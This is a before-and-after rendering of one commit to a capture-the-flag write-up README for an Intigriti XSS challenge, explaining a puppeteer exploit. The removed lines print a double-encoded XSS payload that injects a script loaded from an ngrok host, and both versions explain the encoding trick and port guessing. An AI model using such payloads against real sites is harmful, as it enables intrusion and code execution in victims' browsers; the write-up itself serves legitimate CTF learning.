

Before and after one commit to testing22-0/solution-challenge-10-23, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
General improvements in README.md

````diff
--- a/README.md
+++ b/README.md
@@ -87,14 +87,13 @@ Now, let's briefly dissect the exploit's payload that requires no user interacti
 
 This payload targets the endpoint `https://challenge-1023.intigriti.io/api/report?url=` and utilizes two main parameters: `src` and `startPort`.
 
-```plaintext
-https://challenge-1023.intigriti.io/api/report?url=/<svg><b id="<%2526%2523x2f%253btitle>foo<script src='https:%2526%2523x2f%253b%2526%2523x2f%253ba9b1-191-45-70-141.ngrok-free.app%2526%2523x2f%253b404.js'><%2526%2523x2f%253bscript>">?startPort=40000
-```
+<img src='images/payload.png' alt='payload'/>
+
 Let's break it down:
 
-- **Path and Parameters**: It begins with `<svg><b id="`, introducing a closing `</title>` tag. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
-- **Injected Script**: The payload injects a script with a src attribute pointing to a remote server (https://a9b1-191-45-70-141.ngrok-free.app) hosting the 404.js script. This script is our entry point into the puppeteer exploit.
-- **Query Parameter startPort**: The payload introduces the query parameter startPort=40000 (typically ranging between 45000 and 35000), serving as an initial estimation of the puppeteer port. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.
+- **Path string**: After the endpoint, the payload begins with `<svg><b id="`, introducing a closing `</title>` tag, a following `<script>` tag, a closing `>"` and a query parameter. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
+- **Injected script**: The payload injects a script with an `src` attribute pointing to a remote server (mine was https://a9b1-191-45-70-141.ngrok-free.app) hosting the scripts. This script is our entry point into the puppeteer exploit and the flag can be visualized from that same server.
+- **Query parameter**: The payload introduces the query parameter `startPort`, which typically varies between 35000 and 45000 (but in theory varies from 1 to 655355), and is used as an initial estimation of the puppeteer port at where the browsers run. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.
 
 ### Streamlining Port Extraction
 
````
Also changed, not shown: other parts of README.md (+5 -5 lines).
